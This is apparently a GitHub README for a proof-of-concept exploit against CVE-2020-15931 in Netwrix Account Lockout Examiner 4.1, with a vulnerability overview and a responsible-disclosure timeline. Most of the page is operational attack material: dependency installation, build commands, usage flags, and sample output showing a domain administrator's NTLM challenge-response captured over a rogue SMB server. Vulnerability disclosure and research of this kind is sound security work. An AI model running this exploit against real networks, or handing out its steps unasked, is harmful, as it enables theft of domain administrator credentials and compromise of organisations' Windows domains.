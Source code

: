 # CVE-2020-15931
#### Netwrix Account Lockout Examiner 4.1 Domain Admin Account Credential Disclosure Vulnerability

## Vulnerbility Overview
Netwrix Account Lockout Examiner (ALE) before 5.1 allows an unauthenticated, remote adversary to trigger a connection to an attacker-controlled system and capture the NTLMv1/v2 challenge-response of an account with domain administrator privileges. The domain administrator account would already be configured with the product as required for installation. An adversary can exploit this by generating a single Kerberos Pre-Authentication Failed (Event ID 4771) event on a domain controller.

More details about the vulnerability can be found on the following [Blog](https://www.optiv.com/explore-optiv-insights/source-zero/netwrix-account-lockout-examiner-41-disclosure-vulnerability?utm_source=oth&?utm_medium=dig&?utm_content=blg?cid=prt:red-netwrix-lockout-examiner:thl:som:sze:int:Q3:2020::ALL)

![image](https://github.com/optiv/CVE-2020-15931/blob/master/netwrix_attack.png)

## Credits
The vulnerability was discovered in the wild by Robert Surace ([@robsauce](https://github.com/ROBSAUCE)) and Daniel Min ([@bigb0ss](https://github.com/bigb0sss)), Optiv Security Consultants while performing a security assessment. Upon identification of CVE-2020-15931, Optiv immediately contacted Netwrix to disclose the identified flaw responsibly. 

## Vulnerability Disclosure Timeline
* June 09, 2020 – Vulnerability discovered by Optiv
* June 15, 2020 – Disclosed by Optiv to vendor
* July 14, 2020 – Vendor acknowledged the issue and agreed to release the fixed version
* July 23, 2020 – Disclosed to CNA (MITRE Corporation)
* July 24, 2020 – Vendor released the fixed version of the Netwrix Account Lockout Examiner 5.1
* July 24, 2020 – CVE-2020-15931 assigned by CNA (MITRE Corporation)
* August 13, 2020 – Disclosed to the public
* October 30, 2020 - Base Score 7.5 High assigned by NVD (National Vulnerability Database)

## Exploit Script
### Installation
The exploit script was developed in golang. Install the following dependencies:
```
go get github.com/fatih/color
go get github.com/ropnop/gokrb5/client
go get github.com/ropnop/gokrb5/config
```

It also utilizes the smbserver.py from [Impacket](https://github.com/SecureAuthCorp/impacket). 
```
pip install impacket
```

Finally, download the exploit script and build it.
```
git clone https://github.com/optiv/CVE-2020-15931
go build cve-2020-15931.go
```

### Usage
```
$  ./cve-2020-15931

     _______      ________    ___   ___ ___   ___        __ _____ ___ ____  __ 
    / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | ____/ _ \___ \/_ |
   | |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | |__| (_) |__) || |
   | |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |___ \\__, |__ < | |
   | |____   \  /  | |____    / /_| |_| / /_| |_| |      | |___) | / /___) || |
    \_____|   \/   |______|  |____|\___/____|\___/       |_|____/ /_/|____/ |_|
                                                         [robSauce & bigb0ss]  v1.0

   [+] Netwrix Account Lockout Examiner 4.1 Exploit Script

 
    Required:
    -d            Domain name
    -dc           Domain controller 
    -u            Valid username 
    
    Optional:
    -h            Print this help menu

    Example:
    ./cve-2020-15931 -d target.com -dc 10.10.0.2 -u jsmith

```

### Exploit
<i>(Note: At the time of writing, this attack can only be identified via a blind-based attack. This is because it is difficult
to determine if the target organization is using Netwrix Account Lockout Examiner on their network to audit account authentications or not.)</i>
```
$ ./cve-2020-15931 -d bosslab.com -dc 10.10.0.2 -u b0ss1

     _______      ________    ___   ___ ___   ___        __ _____ ___ ____  __ 
    / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | ____/ _ \___ \/_ |
   | |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | |__| (_) |__) || |
   | |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |___ \\__, |__ < | |
   | |____   \  /  | |____    / /_| |_| / /_| |_| |      | |___) | / /___) || |
    \_____|   \/   |______|  |____|\___/____|\___/       |_|____/ /_/|____/ |_|
                                                         [robSauce & bigb0ss]  v1.0

   [+] Netwrix Account Lockout Examiner 4.1 Exploit Script

[+] DC: 	10.10.0.2
[+] Domain: 	bosslab.com
[+] Username: 	b0ss1
[+] Password: 	wrongPass
[+] Event ID 4771 (Kerberos Pre-Authentication Failed) Triggered!
[+] If vulnerable, you will get a NTLMv1/2 of the Netwrix service account.
[+] SMB Server Started...

Impacket v0.9.22.dev1+20200607.100119.b5c61678 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.0.2,59264)
[*] AUTHENTICATE_MESSAGE(BOSSLAB\Administrator,BOSSLAB-DC01)
[*] User BOSSLAB-DC01\Administrator authenticated successfully
[*] Administrator::BOSSLAB:17dcc32c6eafc48d:f798e7c906eb1b639722614f1417ded1:0101000000000000be18...REDACTED...0000000
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.0.2,59264)
[*] Remaining connections []
```
## References
[Netwrix Account Lockout Examiner 5.1](https://www.netwrix.com/account_lockout_examiner.html) <br/>
[Event ID 4771](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771) <br/>
[Impacket smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) <br/>
[Gokrb5 Client](https://github.com/ropnop/gokrb5) <br/>
[CVE-2020-15931](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15931) <br/>


